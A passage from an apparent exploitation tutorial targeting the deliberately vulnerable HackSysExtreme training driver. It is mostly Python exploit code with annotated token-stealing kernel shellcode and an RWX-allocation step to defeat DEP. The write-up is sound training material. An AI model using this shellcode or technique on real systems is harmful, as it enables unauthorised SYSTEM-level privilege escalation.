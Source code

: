 `GetProcAddress()` will reveal to us the address of HAL and HAL + 0x4. We are more interested in HAL + 0x4.

Once we have the address for HAL + 0x4, we can weaponize our exploit:

```python
# HackSysExtreme Vulnerable Driver Kernel Exploit (Arbitrary Overwrite)
# Author: Connor McGarr

import struct
import sys
import os
from ctypes import *
from subprocess import *

# DLLs for Windows API interaction
kernel32 = windll.kernel32
ntdll = windll.ntdll
psapi = windll.Psapi

class WriteWhatWhere(Structure):
    _fields_ = [
        ("What", c_void_p),
        ("Where", c_void_p)
    ]

payload = bytearray(
    "\x90\x90\x90\x90"                # NOP sled
    "\x60"                            # pushad
    "\x31\xc0"                        # xor eax,eax
    "\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
    "\x8b\x40\x50"                    # mov eax,[eax+0x50]
    "\x89\xc1"                        # mov ecx,eax
    "\xba\x04\x00\x00\x00"            # mov edx,0x4
    "\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
    "\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
    "\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
    "\x75\xed"                        # jnz 0x1a
    "\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
    "\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
    "\x61"                            # popad
    "\x31\xc0"                        # xor eax, eax (restore execution)
    "\x83\xc4\x24"                    # add esp, 0x24 (restore execution)
    "\x5d"                            # pop ebp
    "\xc2\x08\x00"                    # ret 0x8
)

# Defeating DEP with VirtualAlloc. Creating RWX memory, and copying our shellcode in that region.
print "[+] Allocating RWX region for shellcode"
ptr = kernel32.VirtualAlloc(
    c_int(0),                         # lpAddress
    c_int(len(payload)),              # dwSize
    c_int(0x3000),                    # flAllocationType
    c_int(0x40)                       # flProtect
)

# Creates a ctype variant of the payload (from_buffer)
c_type_buffer = (c_char * len(payload)).from_buffer(payload)

print "[+] Copying shellcode to newly allocated RWX region"
kernel32.RtlMoveMemory(
    c_int(ptr),                       # Destination (pointer)
    c_type_buffer,                    # Source (pointer)
    c_int(len(payload))               # Length
)
```